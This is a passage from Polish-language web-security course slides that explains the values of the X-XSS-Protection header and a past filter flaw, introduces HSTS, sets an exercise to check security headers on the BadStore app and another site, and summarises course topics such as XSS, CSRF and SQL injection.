- Działanie filtru przeglądarki opiera się na sprawdzeniu czy w treści przesyłanego żądania HTTP znajdują się tagi HTML lub fragmenty kodu JavaScript – oraz czy później wysyłane fragmenty kodu znajdują się w odpowiedzi, jeśli tak wykonanie takiego kodu jest blokowane.
X-XSS-Protection (II)
X-XSS-Protection: 0
X-XSS-Protection: 1
X-XSS-Protection: 1; mode=block
X-XSS-Protection: 1; report=<reporting-uri>
X-XSS-Protection: 0
Filtr XSS jest wyłączony, nie jest wykorzystywana ochrona po stronie przeglądarki.
X-XSS-Protection: 1
Filtr XSS jest włączony (zazwyczaj domyślne w przeglądarkach). W przypadku wykrycia ataku Cross-Site Scripting, przeglądarka usuwa ze strony fragmenty uznane za niebezpieczny skrypt.
X-XSS-Protection: 1; mode=block
Filtr XSS jest włączony w trybie, w którym wykrycie próby ataku XSS skutkuje przerwaniem renderowania strony (wyświetlana jest tylko biała strona).
X-XSS-Protection: 1; report=<reporting-uri>
Opcja dostępna tylko w przeglądarce Chromium - filtr XSS jest włączony, w przypadku wykrycia ataku Cross-Site Scripting przeglądarka usuwa ze strony fragmenty uznane za niebezpieczny skrypt i zgłasza naruszenie;
w tym celu wykorzystywana jest funkcjonalność dyrektywy report-uri mechanizmu CSP, wykorzystywanej do raportowania naruszeń.
Jaka wartość X-XSS-Protection jest najbezpieczniejsza? (I)
Jaka wartość X-XSS-Protection jest najbezpieczniejsza? (II)
- Nagłówek należy ustawiać jako X-XSS-Protection: 1; mode=block, standardowo uznaje się że jest to najbezpieczniejsza opcja – zalecana m. in. przez OWASP.
Jaka wartość X-XSS-Protection jest najbezpieczniejsza? (III)
- Nie jest zalecane zostawianie domyślnych wartości nagłówka, ponieważ wielokrotnie pokazane zostało, że w specyficznych przypadkach filtr XSS ustawiony jako X-XSS-Protection: 1 może spowodować wykonanie wprowadzonego skryptu w sytuacji, w której bez filtra nie było to możliwe.
X-XSS-Protection (III)
- Nagłówek bezpieczeństwa wprowadzał podatność tam gdzie jej nie było!
- Implementacja filtra polegała na zastąpieniu fragmentu uznanego za niebezpieczny skrypt znakiem #.
X-XSS-Protection (IV)
- Błędy w implementacji powodowały że przez # zastępowany był fragment tagu HTML, payload nie był zmieniany, a modyfikacja innego elementu strony np. zamknięcia tagu style umożliwiała wykonanie ataku z wykorzystaniem składni CSS.
HTTP Strict Transport Security (HSTS)
- HTTP Strict Transport Security (HSTS) jest mechanizmem bezpieczeństwa sieci, który chroni strony przed atakami takimi, jak wymuszona zmiana poziomu protokołu oraz przechwytywanie sesji.
- Dzięki jego zastosowaniu przeglądarka łączy się tylko korzystając z połączeń HTTPS.
Ćwiczenie 10
Weryfikacja obecności nagłowków bezpieczeństwa w aplikacji BadStore oraz wybranej innej np. Facebook.
Podsumowanie
Podsumowanie (I)
- Wprowadzenie i statystyki dotyczące podatności
- Organizacja OWASP – materiały i narzędzia OWASP
- OWASP Top 10
- Podstawowe informacje dotyczące aplikacji webowych
- Skanowanie portów
Podsumowanie (II)
- Przegląd baz danych podatności
- Narzędzia typu lokalnego Proxy
- Podatność XSS i jej wykorzystanie (BeEF i własny skrypt)
- Ataki CSRF, przygotowanie przykładowej strony HTML wykonującej atak
Podsumowanie (III)
- SQL Injection
- Podatności kategorii Broken Access Control
- Podsłuchanie komunikacji nieszyfrowanej z wykorzystaniem Wireshark
- Skanery umożliwiające automatyczne testy bezpieczeństwa
- Nagłówki bezpieczeństwa